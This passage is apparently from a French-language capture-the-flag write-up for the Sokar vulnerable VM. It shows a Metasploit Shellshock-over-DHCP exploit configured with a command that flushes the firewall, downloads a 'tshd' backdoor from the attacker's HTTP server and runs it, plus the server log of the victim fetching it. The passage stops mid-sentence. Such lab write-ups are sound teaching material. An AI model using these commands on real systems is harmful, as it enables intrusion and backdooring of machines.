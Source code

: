 Tout se passe bien comme prévu... sauf qu'il n'y a pas de cocktail surprise :( Aucune autre connexion n'est tentée par la VM.  

![Sokar - DNS hijack](https://github.com/devl00p/blog/raw/master/images/sokar/capt2.png)

Puisqu'un client DHCP tourne sur la machine j'ai choisi de m'orienter vers la faille [Shellshock](http://d4n3ws.polux-hosting.com/2014/09/24/vulnerabilite-dans-bash/) qui concerne aussi DHCP.  

Après avoir mis fin au faux serveur DHCP je configure le module *Metasploit* qui nous intéresse :  

```plain
msf > use exploit/unix/dhcp/bash_environment
msf exploit(bash_environment) > set SRVHOST 192.168.1.3
SRVHOST => 192.168.1.3
msf exploit(bash_environment) > set ROUTER 192.168.1.3
ROUTER => 192.168.1.3
msf exploit(bash_environment) > set NETMASK 255.255.255.0
NETMASK => 255.255.255.0
msf exploit(bash_environment) > set DHCPIPSTART 192.168.1.62
DHCPIPSTART => 192.168.1.62
msf exploit(bash_environment) > set DHCPIPEND 192.168.1.100
DHCPIPEND => 192.168.1.10
msf exploit(bash_environment) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf exploit(bash_environment) > set CMD "iptables -F; wget http://192.168.1.3:8000/tshd -O /tmp/tshd;chmod 755 /tmp/tshd;setsid /tmp/tshd"
CMD => iptables -F; wget http://192.168.1.3:8000/tshd -O /tmp/tshd;chmod 755 /tmp/tshd;setsid /tmp/tshd
```

Ici le payload consiste d'abord à supprimer les règles du pare-feu qui nous embêtent puis à lancer un serveur *tshd*.  

On aura préalablement mit en place un mini serveur HTTP pour que la victime récupère la backdoor.  

Et devinez qui vient diner ce soir ?  

```plain
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.63 - - [17/Feb/2015 22:43:03] "GET /tshd HTTP/1.0" 200 -
```

Il faut attendre un peu avoir de pouvoir profiter de l'attaque car comme on le voit dans la capture réseau l'exécution se fait via une tache cron :  

